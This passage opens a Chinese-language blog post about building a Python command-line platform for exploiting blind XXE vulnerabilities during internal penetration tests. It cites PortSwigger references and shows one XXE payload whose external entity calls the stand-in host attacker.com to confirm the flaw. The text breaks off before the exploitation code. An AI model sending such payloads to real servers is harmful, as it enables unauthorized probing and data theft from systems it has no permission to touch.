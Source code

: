 ```yaml
---
layout: post
title: 渗透工具开发——blind XXE利用平台的实现
---
```



## 0x00 前言
---

当应用程序存在XXE注入漏洞但不返回其响应中任何定义的外部实体的值时，就会出现blind XXE漏洞，这意味着无法直接读取服务器文件，利用起来也比常规XXE漏洞更加复杂。

在内网渗透中，最理想的情况是在跳板的命令行下完成整个漏洞的利用，于是我打算用Python实现一个完整的blind XXE利用平台，支持在命令行下运行。

## 0x01 简介
---

本文将要介绍以下内容：

- blind XXE基本知识
- 设计思路
- 开源代码

## 0x02 blind XXE基本知识
---

参考链接：

https://portswigger.net/web-security/xxe

https://portswigger.net/web-security/xxe/blind

## 0x03 设计思路
---

### 1.漏洞验证

XXE利用代码如下：

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com"> ]>
```

这里定义了一个外部实体，如果存在漏洞，服务器会向指定的Web服务器发送http请求

Web服务器的搭建可以使用Python的SimpleHTTPRequestHandler，细节可参考之前的文章[《渗透工具开发——XSS平台的命令行实现》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%B7%A5%E5%85%B7%E5%BC%80%E5%8F%91-XSS%E5%B9%B3%E5%8F%B0%E7%9A%84%E5%91%BD%E4%BB%A4%E8%A1%8C%E5%AE%9E%E7%8E%B0)

### 2.漏洞利用

XXE利用代码如下：
